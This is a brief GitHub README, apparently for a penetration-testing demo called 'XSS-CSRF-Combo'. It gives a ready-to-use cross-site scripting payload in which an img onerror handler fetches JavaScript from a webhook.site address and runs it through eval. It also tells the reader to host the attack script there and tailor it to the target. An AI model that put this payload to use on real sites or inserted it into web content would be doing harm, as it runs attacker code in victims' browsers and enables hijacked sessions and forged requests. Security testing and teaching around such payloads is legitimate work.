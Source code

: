 # XSS-CSRF-Combo
A small useful script combining combined XSS and CSRF to demonstrate real life attack during a penetration testing assessment. Note that I did not develop the script myself.
# Disclaimer : Use at your own risk.

# XSS payload
`"><img src=g onerror="fetch('https://webhook.site/72fb0516-37f4-4597-aec2-a710337bfeef').then(r=>r.text()).then(d=>eval(d))">`

 To perform the attack scenario, deploy the javascript content on your webhook. Note that, the content needs to be adjusted based on the target.
